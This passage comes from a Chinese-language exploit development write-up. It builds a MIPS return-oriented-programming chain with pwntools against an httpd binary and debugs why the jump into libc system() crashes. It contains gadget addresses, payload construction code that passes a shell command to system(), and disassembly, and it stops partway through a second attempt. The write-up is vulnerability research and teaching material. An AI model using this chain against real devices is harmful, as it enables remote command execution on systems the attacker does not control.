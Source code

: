 ```

        _system = 0x004E630


        a0_EQ_sp24_c_JR_24sp  = 0x0004D144 # addiu $a0,$sp,0x24+var_C | jr 0x24($sp)
        # LOAD:0004D144                 addiu   $a0, $sp, 0x24+var_C
        # LOAD:0004D148                 lw      $ra, 0x24+var_s0($sp)
        # LOAD:0004D14C                 nop
        # LOAD:0004D150                 jr      $ra


        a0_EQ_sp28_c_JR_24sp  = 0x00058920 # addiu $a0,$sp,0x28+var_C | jr 0x24($sp)
        # LOAD:00058920                 addiu   $a0, $sp, 0x28+var_C
        # LOAD:00058924                 lw      $v1, 0x28+var_C($sp)
        # LOAD:00058928                 lw      $ra, 0x28+var_4($sp)
        # LOAD:0005892C                 sw      $v1, 0($s0)
        # LOAD:00058930                 lw      $s0, 0x28+var_8($sp)
        # LOAD:00058934                 jr      $ra

        _payload = {
                ret_offset: libc_base + a0_EQ_sp24_c_JR_24sp,
                (sp_offset + 0x18): b'`mkdir /retr0reg`',
                (sp_offset + 0x24): libc_base + _system,
            }

        return flat(_payload)

```  
  
在这里，我们使用 pwntools 的 flat 方法构建了我们的 ROP 负载，这避免了大量的 'payload +='，p32() 操作，并通过偏移量作为字典轻松构建负载；我们通过 vmmap（/proc/<pid>/maps）获得的 libc_base 和通过 cyclic 模式字符串获得的 $pc 和 $sp 偏移量；该 ROP-Chain 应该可以工作，因为 $pc 变为 `libc_base + a0_EQ_sp24_c  
  
_JR_24sp；$a0将被mov到sp_offset + 0x18，其中存储我们的RCE Command，然后jr进入libc_base + _system的libc system()API。现在我们可以直接通过我们构建的sink()发送展平的_payload`；让我们看看会发生什么...  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ZEkT0Rn34yGKTU8En1lUTWmh7rj1ico6AGCTho0JqgfjrUNJUl7sPduucEFwNg94t1JUWNmdHjicFUEVc5GBP6cg/640?wx_fmt=png&from=appmsg "")  
  
  
好吧，./bin/httpd 在 0x77fa7640 收到了 SIGSEGV，这离 libc_base + _system: 0x77fa7630 只有几个命令的距离，一方面这表明我们控制了流到目标 libc_base + _system 符号加载在 libc.so 中，并且 $a0 寄存器确实修改为指向 0x646b6d60 的堆栈地址。然而，加载的 libc 符号 system 似乎没有正常工作，因为在 0x77fa7640 停止，因为 lw $t9, -0x7f90($gp) 引发了 SIGSEGV；但为什么呢？  
  
这个问题的答案隐藏在当前的命令中：lw $t9, -0x7f90($gp)，编译器试图从全局寄存器 $gp 的负偏移量 -0x7f90 处加载字（lw）。这对于 libc 来说是正常的操作，以便在当前符号中加载其他调用的符号，例如这里如果你查看 libc.so 在 IDA Pro 中的反编译版本，你会发现此命令正在从全局符号加载 memset。然而，由于先前的直接溢出组件，此处的 $gp 寄存器似乎未正确设置，导致 CPU 访问非法地址 0x7800f34c - 这在 vmmap 段中甚至不存在！触发了 CPU 的 SIGSEGV 段错误。  
#### 尝试 2：$a0 + $t9？  
  
为了解决阻碍我们的这个问题，我们将不得不找到一种方法使 $gp-0x7f90 成为合法地址 - 最好是指向已加载的 libc 中符号 memset 的准确地址；这里有一些有趣的地方，如果你查看 system() 符号初始化或加载时的段落，例如：  
```
LOAD:0004E630                 li      $gp, (unk_9C2D0+0x7FF0 - .)
LOAD:0004E638                 addu    $gp, $t9
LOAD:0004E63C                 addiu   $sp, -0x450
LOAD:0004E640                 la      $t9, memset

```  
  